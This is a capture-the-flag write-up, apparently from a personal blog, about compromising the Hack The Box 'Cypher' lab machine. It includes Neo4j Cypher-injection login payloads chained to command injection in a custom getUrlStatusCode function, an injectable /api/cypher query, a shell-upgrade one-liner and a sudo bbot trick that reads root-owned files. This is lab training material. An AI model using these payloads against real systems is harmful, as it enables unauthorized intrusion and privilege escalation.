 ```yaml
---
title: "Cypher -HTB"
date: 2025-04-19 14:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [Linux, priv-escalation, initial access, cypher]
toc: true
comments: true
image: ./assets/img/attachments/cypher1.png
---
```



> 🧠 It's the beginning of the journey.

This is **Machine 1 of 1000** — part of my mission to become a stronger red teamer by solving and documenting every challenge I encounter.

In this writeup, I’ll walk you through how I rooted the **Cypher** machine from Hack The Box, explaining each step from enumeration to exploitation.
### Full port scanning
The first step is to perform a full scan using Nmap to identify open ports and services. However, since a full scan can take a long time, we can start by using the `-F` flag to scan the 1,000 most common ports. Until the full scan finishes.
``` shell
sudo nmap 10.10.11.57 -F -Pn -T5 -sV 
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher2.png)

from here we get that http post is open, so next step is to check this website. BUT accessing the ip from browser alone wont work, since the ip must be added to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher3.png)

Now that we got the domain name, lets add it to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher4.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher5.png)

This is how the webpage looked like, next step is content discovery for this domain, and until the fuzzing process is done i will test SQLi at this login form.
```shell
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher6.png)

I got this error which disclose that the database used is Neoj4, and a critical information, that the username is directly added to the cypher query without validations.

![Whatever Alt Text You Want](/assets/img/attachments/cypher7.png)

And fuzzing result shows this directory, so lets check what does it contains

![Whatever Alt Text You Want](/assets/img/attachments/cypher8.png)

Which look interesting, after downloading this jar file and extracted its content

![Whatever Alt Text You Want](/assets/img/attachments/cypher9.png)

found those classes and the suspicious one is CustomFunction

![Whatever Alt Text You Want](/assets/img/attachments/cypher10.png)

Since its compiled file and not human readable, I will use online decompiler to make it readable.

![Whatever Alt Text You Want](/assets/img/attachments/cypher11.png)

Here we can see the vulnerable point, where the url is inserted into the curl command without sanitization or validation beyond checking for http:// or https:// prefixes.

![Whatever Alt Text You Want](/assets/img/attachments/cypher12.png)

Exploiting this vulnerability in url didn't work 
### From this point we have two methods to gain the initial access:
**Method one**:

from the point that the username is inserted directly to the cypher query, we can create custom query, that ends the username field and call the vulnerable function getURLStatusCode
`"username":"') CALL getUrlStatusCode('http://127.0.0.1;whoami') // '"`

![Whatever Alt Text You Want](/assets/img/attachments/cypher13.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher14.png)

its important here to keep in mind the response time.

![Whatever Alt Text You Want](/assets/img/attachments/cypher15.png)

which proves the blind command injection vulnerability here.
```json
{"username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;sleep 10') YIELD statusCode AS value RETURN value; //",

"password":"admin"}
```
Now, its time to create the reverse shell payload, and setting a listener at the same time

![Whatever Alt Text You Want](/assets/img/attachments/cypher16.png)

whow!! Worked!

![Whatever Alt Text You Want](/assets/img/attachments/cypher17.png)

and we got our initial access

**Method 2**:

![Whatever Alt Text You Want](/assets/img/attachments/cypher18.png)

Taking the machine as hint, we find that the endpoint /cypher is exposed, and as showen in the image, there is a missing parameter for it called query, so would query work as our vulnerable point?

![Whatever Alt Text You Want](/assets/img/attachments/cypher19.png)

lets craft the payload passed on cypher syntax

![Whatever Alt Text You Want](/assets/img/attachments/cypher20.png)

This is the indication that this is an injectable parameter for us, next step is to exploit it using the vulnerable class mentioned before.

`/api/cypher?query=CALL%20custom.getUrlStatusCode('http://127.0.0.1;id')`

![Whatever Alt Text You Want](/assets/img/attachments/cypher21.png)

And done! back to the initial access part:
To make the shell mor usable and interactive

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![Whatever Alt Text You Want](/assets/img/attachments/cypher22.png)

Here we find a saved credentials at this file so lets do password spraying here!

![Whatever Alt Text You Want](/assets/img/attachments/cypher23.png)

Using the found password we gained access using ssh as graphasm user.

## Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cypher24.png)

This user has a root privilage on bbot, which is a tool as we see

![Whatever Alt Text You Want](/assets/img/attachments/cypher25.png)

Next step is either to use it to execute different commands, or to read the root.txt file with it

`sudo /usr/local/bin/bbot -cy /root/root.txt --debug 2>&1 | tee output.log
`
![Whatever Alt Text You Want](/assets/img/attachments/cypher26.png)

We were able to read the root content file using yara rules, and ROOTED!!

